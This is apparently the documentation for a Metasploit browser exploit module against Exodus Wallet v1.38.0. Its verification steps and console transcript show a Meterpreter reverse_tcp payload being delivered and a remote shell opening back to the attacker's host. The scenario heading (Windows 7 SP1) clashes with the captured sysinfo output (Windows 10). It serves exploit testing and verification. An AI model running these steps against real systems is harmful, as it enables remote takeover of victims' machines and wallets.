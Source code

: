 
## Verification Steps
1. Install Exodus Wallet version `v1.38.0`
2. Start `msfconsole`
3. Do `use exploit/windows/browser/exodus`
4. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
5. Do `set LHOST ip`
6. Do `exploit`
7. In the target machine browse to the malicious URL an launch Exodus
8. Verify the Meterpreter session is opened

## Scenarios

# Exodus Wallet on Windows 7 SP1

```
msf > use exploit/windows/browser/exodus
msf exploit(windows/browser/exodus) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/browser/exodus) > set LHOST 172.16.40.5 
LHOST => 172.16.40.5
msf exploit(windows/browser/exodus) > exploit 
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Using URL: http://0.0.0.0:80/
msf exploit(windows/browser/exodus) > [*] Local IP: http://172.16.40.5:80/
[*] Server started.
[*] 172.16.40.149    exodus - Delivering Payload
[*] Sending stage (179779 bytes) to 172.16.40.149
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.149:49726) at 2018-02-23 15:40:17 +0000

msf exploit(windows/browser/exodus) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : DESKTOP-PI8214R
OS              : Windows 10 (Build 10586).
Architecture    : x64
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

